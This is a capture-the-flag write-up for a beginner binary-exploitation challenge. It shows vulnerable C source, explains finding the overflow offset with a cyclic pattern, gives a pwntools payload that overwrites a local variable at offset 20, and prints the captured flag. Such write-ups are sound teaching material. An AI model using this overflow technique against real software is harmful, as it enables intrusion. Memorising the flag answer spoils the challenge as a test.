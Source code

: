 # Bluffer Overflow

## Information
**Category:** |
--- | 
PWN |

**Description:** 
~~~
Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
~~~

## Solution
```c
    if (buff2 > 5134160) {

        printf("Too high!\n\n");

    } else if (buff2 == 5134160){

        printf("Congrats, You got the right value!\n");

        system("cat flag.txt");

    } else {

        printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");

    }

    printf("\nOutput : %s, Value : %d \n", buff, buff2);
```

Inspection the source code we know that we need to make `buff2 == 5134160`, we can see it output our `input/buff` and `buf2` value

So, we can overflow the input using cyclic for for overwriting the buff2 value and finding the offset

![Alt text](media/image-1.png)

After we get the offset we can make the exploit like this below
```py
payload = flat({
    20:  5134160,
})
io.sendline(payload)
log.success(io.recvall())
```
![Alt text](media/image.png)

>    TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
